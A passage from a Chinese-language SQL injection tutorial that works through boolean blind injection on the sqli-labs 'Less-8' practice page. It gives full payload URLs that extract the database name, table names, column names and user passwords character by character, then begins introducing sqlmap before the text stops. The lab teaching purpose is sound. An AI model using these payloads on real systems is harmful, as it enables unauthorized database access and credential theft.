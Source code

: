 对照我们上面的ascll表，可以得出一个字母是s

![](img/2.7/13.png)

然后，我们改变substr的第二个参数，继续判断，链接如下

http://39.98.88.18:8080/sql/Less-8/index.php?id=1%27%20and%20(ascii(substr(database(),2,1)))=115--+

继续采用二分法依次判断。再次不在过多叙述。

最终得出当前数据库的库名为security.


4.猜测表命

猜测表明的链接如下：

>http://39.98.88.18:8080/sql/Less-8/index.php?id=1%27%20and(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))<116--+

具体方法同上，仍然是使用二分法在此不过多叙述。


5.猜测列名

>http://39.98.88.18:8080/sql/Less-8/index.php?id=1%27%20and (ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)))>100 --+

６.猜测数据

>http://39.98.88.18:8080/sql/Less-8/index.php?id=1%27%20and  (ascii(substr(( select password from users limit 0,1),1,1)))=68--+

##七、sqlmap简单使用

盲注测试繁琐又复杂。。首先建议大家手工尝试一下，理解其注入的原理。然后给大家推荐一下sqlmap的使用，毕竟使用sqlmap进行盲注会简单的多。

关于sqlmap的安装在此不在叙述，在稍后的课程中会详细讲明。在下面推荐安装链接
。

>https://blog.csdn.net/baigoocn/article/details/51456721

本人是在kali上使用的sqlmap。某些版本的sqlmap在使用是需要在前面加python.

1.判断是否存在注入
